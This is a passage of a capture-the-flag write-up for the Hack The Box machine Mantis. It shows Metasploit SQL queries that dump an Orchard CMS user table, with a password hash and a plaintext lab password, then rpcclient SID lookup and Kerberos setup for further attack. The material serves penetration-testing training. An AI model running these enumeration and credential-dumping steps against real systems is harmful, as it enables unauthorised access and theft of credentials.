<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Containers_ContainerWidgetPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Containers_ContainablePartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Title_TitlePartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Navigation_MenuPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Navigation_AdminMenuPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Scheduling_ScheduledTaskRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_ContentPicker_ContentMenuItemPartRecord&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Alias_AliasRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Alias_ActionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Autoroute_AutoroutePartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">blog_Orchard_Users_UserPartRecord</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_PermissionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_RoleRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_RolesPermissionsRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_UserRolesPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Packaging_PackagingSource&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Recipes_RecipeStepResultRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_OutputCache_CacheParameterRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaProcessing_ImageProfilePartRecord&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaProcessing_FilterRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaProcessing_FileNameRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Widgets_LayerPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Widgets_WidgetPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Comments_CommentPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Comments_CommentsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TaxonomyPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TermPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TermContentItem&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TermsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaLibrary_MediaPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Blogs_BlogPartArchiveRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE</p>

<p><font color="RoyalBlue">[*]</font> Auxiliary module execution completed
<br>msf auxiliary(<font color="red">mssql_sql</font>) ></p>

</div>
</font>

<br>We got a lot of Table names but we will focus on **blog__Orchard_Users_UserPartRecord** for further enumeration


<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf auxiliary(mssql_sql) > set SQL USE orcharddb; "SELECT * FROM INFORMATION_SCHEMA.COLUMNS where <br>TABLE_NAME='blog_Orchard_Users_UserPartRecord'"
<br>SQL => USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='blog_Orchard_Users_UserPartRecord'
<br>msf auxiliary(mssql_sql) > exploit </p>

<p>[*] 10.10.10.52:1433 - SQL Query: USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.COLUMNS where <br>TABLE_NAME='blog_Orchard_Users_UserPartRecord'
<br>[*] 10.10.10.52:1433 - Row Count: 14 (Status: 16 Command: 193)</p>

</div>
</font>

![7](https://teckk2.github.io/assets/images/Mantis/7.png)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf auxiliary(<font color="red">mssql_sql</font>) > set SQL USE orcharddb; SELECT Id,Email,NormalizedUserName,Password,PasswordFormat,HashAlgorithm,PasswordSalt FROM blog_Orchard_Users_UserPartRecord
<br>SQL => USE orcharddb; SELECT Id,Email,NormalizedUserName,Password,PasswordFormat,HashAlgorithm,PasswordSalt FROM blog_Orchard_Users_UserPartRecord
<br>msf auxiliary(<font color="red">mssql_sql</font>) > exploit</p> 

<p><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - SQL Query: USE orcharddb; SELECT <br>Id,Email,NormalizedUserName,Password,PasswordFormat,HashAlgorithm,PasswordSalt FROM blog_Orchard_Users_UserPartRecord
<br><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - Row Count: 2 (Status: 16 Command: 193)</p>



<p>&nbsp;Id&nbsp;&nbsp;Email&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NormalizedUserName&nbsp;&nbsp;Password&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;PasswordFormat&nbsp;&nbsp;HashAlgorithm&nbsp;&nbsp;PasswordSalt
<br>&nbsp;--&nbsp;&nbsp;-----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;------------------&nbsp;&nbsp;--------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;--------------&nbsp;&nbsp;-------------&nbsp;&nbsp;------------
<br>&nbsp;2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">admin</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==</font>&nbsp;&nbsp;Hashed&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;PBKDF2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">UBwWF1CQCsaGc/P7jIR/kg==</font>
<br>&nbsp;15&nbsp;&nbsp;james@htb.local&nbsp;&nbsp;<font color="ffff00">james</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">J@m3s_P@ssW0rd!</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Plaintext&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Plaintext&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NA</p>

<p><font color="RoyalBlue">[*]</font> Auxiliary module execution completed
<br>msf auxiliary(<font color="red">mssql_sql</font>) ></p>

</div>
</font>

<br>We got the James user plaintext password
<br>Email = **james@htb.local**
<br>Username = **james**
<br>Password = **J@m3s_P@ssW0rd!**

<br>Now using this credential we can login to RPC client and extract the SID of user james 

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># rpcclient -U james 10.10.10.52
<br>Enter WORKGROUP\james's password: 
<br>rpcclient $> lookupnames james
<br>james <font color="ffff00">S-1-5-21-4220043660-4019079961-2895681657-1103</font> (User: 1)
<br>rpcclient $> </p>

</div>
</font>

<br> Now before we proceed we need to install and edit few things like time, nameservers, etc.. So we could connect to the server.


<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># <font color="ffff00">apt-get install rdate</font> 
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># <font color="ffff00">apt-get install krb5-user</font>
<br><font color="red">root@kali</font>:<font color="RoyalBlue"> cat /etc/hosts
<br>127.0.0.1	localhost
<br>127.0.1.1	kali
<br>10.10.10.65	beehive.ariekei.htb
<br>10.10.10.81	bart.local
<br><font color="ffff00">10.10.10.52	mantis.htb.local</font>
<br>10.10.10.75	nibbles.htb
<br>10.10.10.13	admin.cronos.htb
<br>10.10.10.79	valentine.htb
<br>10.10.10.80	crimestoppers.htb
<br>10.10.10.61	enterprise.htb
<br>10.10.10.67	inception.htb
<br>10.10.10.69	fluxcapacitor.htb
<br>10.10.10.65	calvin.ariekei.htb
<br>10.10.10.60	sense.htb
<br>192.0.78.24	curlupallure.com</p>

<p># The following lines are desirable for IPv6 capable hosts
<br>::1     localhost ip6-localhost ip6-loopback
<br>ff02::1 ip6-allnodes
<br>ff02::2 ip6-allrouters
<br><font color="red">root@kali</font>:<font color="RoyalBlue"> cat /etc/resolv.conf 
<br># Generated by NetworkManager
<br>search localdomain
<br><font color="ffff00">nameserver 10.10.10.52</font>
<br>nameserver 192.168.140.2
<br><font color="red">root@kali</font>:<font color="RoyalBlue"></p>

</div>
</font>


